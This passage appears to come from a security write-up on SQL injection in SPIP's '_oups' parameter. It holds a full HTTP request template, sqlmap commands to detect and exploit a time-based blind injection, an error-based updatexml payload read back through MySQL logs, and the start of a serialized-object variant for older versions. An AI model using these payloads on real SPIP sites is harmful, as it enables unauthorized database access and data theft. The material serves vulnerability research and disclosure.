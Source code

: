 The response will have a five seconds delay, which validates the injection.

**SQLMAP** : 

SAMPLE  :

```http
POST /ecrire/?exec=article&id_article=1 HTTP/1.1
Host: {{IP}}:{{PORT}}
Content-Length: {{Content-Length}}
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Cookie: {{SPIP_COOKIES}}
Connection: close

var_ajax=form&exec=article&id_article=1&formulaire_action=editer_liens&formulaire_action_args={{formulaire_action_args}}&formulaire_action_sign={{formulaire_action_sign}}&visible=0&debutautl=&annuler_oups=Ooops&_oups=[{"objet":"article","auteur":"1","article":"1","vu='' *":""}]
```

Then :

- Copy the previous request into a file (e.g. "r.txt")
- `sqlmap -r r.txt --dbms MYSQL --eval "from base64 import b64encode; _oups = b64encode(_oups.encode())" -p '_oups' --level 2`

If everything worked correctly, sqlmap should have found the "RLIKE time-based blind" injection.
You can now exploit (e.g. `sqlmap -r r.txt --dbms MYSQL --eval "from base64 import b64encode; _oups = b64encode(_oups.encode())" -p '_oups' --privileges`).

**Ressources :**

https://osandamalith.com/2017/03/13/mysql-blind-injection-in-insert-and-update-statements/

---

## ERROR BASED SQLi

With the ability to read the logs, via an LFI for example, we can get better exfiltration results than a time based SQLi :

`vu='' OR updatexml(1,concat(0x7e,(version())),0) #`

With this payload, we'll retrieve the result in mysql logs ("tmp/log/mysql.log"): `XPATH syntax error: '~5.7.39'`

---

## "4.1.5" and before, "unserialize" version

The idea is the same as explained before, except that we are injecting inside a PHP Object. We need to script the generation part, because the length of the SQLi payload must be correctly indicated.

Here is the content of a normal "_oups" object (base64 decoded) :

`a:1:{i:0;a:6:{s:9:"id_auteur";s:1:"1";s:8:"id_objet";s:1:"1";s:5:"objet";s:7:"article";s:2:"vu";s:3:"non";s:6:"auteur";s:1:"1";s:7:"article";s:1:"1";}}`
